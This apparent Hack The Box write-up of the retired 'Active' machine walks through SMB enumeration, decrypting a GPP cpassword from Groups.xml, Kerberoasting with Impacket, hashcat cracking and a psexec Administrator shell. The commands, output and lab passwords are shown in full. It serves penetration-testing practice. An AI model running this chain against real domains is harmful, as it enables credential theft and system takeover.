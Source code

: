 ```yaml
---
layout: post
title: "HTB-Active"
categories: HTB-Active
---
```


![active](/assets/img/active/active1.png)


Active is a box from TJNull's OSCP list, its one of the HTB 'retired' list judged a bit more challenging than the OSCP
but good practice.
As always, nmap first...


<h3>Nmap</h3>
`nmap -sV -Pn -p- 10.10.10.100 |tee -a act.txt`

```

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-01 23:25:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
49180/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows


```

Enum4linux, is a handy smb enumeration tool, the results here give us a springboard for further enumeration.

`enum4linux 10.10.10.100`

```

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available

```

More interesting information is found...

```

//10.10.10.100/Replication      Mapping: OK, Listing: OK

```


With some shares listed, we can use smbmap and smbclient to invstigate.

`smbmap -H 10.10.10.100` gives us a little more...

![smbmap](/assets/img/active/active-smbmap1.png)

We have the domain name confirmed as `active.htb` and so update the /etc/hosts file accordingly.

Smbclient is a good tool for manually enumerating the server, lets have a look at the Replication share...

`smbclient //10.10.10.100/Replication

![smbclient1](/assets/img/active/active-smbclient1.png)


Further digging leads to a file Groups.xml which we can retrieve with smbclient.

![smbclient-groupsxml](/assets/img/active/active-smbclient-groupsxml.png)

Groups.xml gives us some credentials

```

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

It looks like the account is not disabled, so we can try to use it, if we can decrypt it.


Its a 'group policy preferences' encryption, Kali has a handy tool to decrypt it.
gpp-decrypt works...

```

gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18

```
so...
`active.htb\SVC_TGS`
`GPPstillStandingStrong2k18`

we can try these creds in smbclient to see what else we can find...

`smbclient -U SVC_TGS //10.10.10.100/Users`

We can browse to and 'get' user.txt.

![usertxt](/assets/img/active/active-smbclient-usertxt.png)

<hr width="250" size="6">

Now I need to gain access and escalate privileges.

Fortunately Impacket has a set of tools that can help.

```

python GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18

```

![getuserspn](/assets/img/active/active-getuserspn.png)

I copy the hash to textfile 'hash' and use hashcat with rockyou.txt to break it.

`hashcat -m 13100 hash.txt -a 0 /home/sassuwunnu/wordlists/rockyou.txt --force`

we get the password `Ticketmaster1968`

Before exploring other avenues of access, I quickly try the creds Administrator/Ticketmaster1968
with smbclient.

```

root@kali:~/HTB/vip/active# smbclient -UAdministrator //10.10.10.100/Users
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 15:39:20 2018
  ..                                 DR        0  Sat Jul 21 15:39:20 2018
  Administrator                       D        0  Mon Jul 16 11:14:21 2018
  All Users                         DHS        0  Tue Jul 14 06:06:44 2009
  Default                           DHR        0  Tue Jul 14 07:38:21 2009
  Default User                      DHS        0  Tue Jul 14 06:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 05:57:55 2009
  Public                             DR        0  Tue Jul 14 05:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 16:16:32 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \> cd administrator
smb: \administrator\> cd desktop
smb: \administrator\desktop\> ls
  .                                  DR        0  Mon Jul 30 14:50:10 2018
  ..                                 DR        0  Mon Jul 30 14:50:10 2018
  desktop.ini                       AHS      282  Mon Jul 30 14:50:10 2018
  root.txt                            A       34  Sat Jul 21 16:06:07 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \administrator\desktop\> get root.txt
getting file \administrator\desktop\root.txt of size 34 as root.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \administrator\desktop\> exit

```

Looks like we didn't need to actually get a command shell on the target at all to retrieve the
user and root flags.


I can't just leave it there though, got to get a shell...

Again Impacket's tools make it simple in this situation.

```


python ~/psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file GLVXXcRb.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service UXYD on 10.10.10.100.....
[*] Starting service UXYD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```



:)


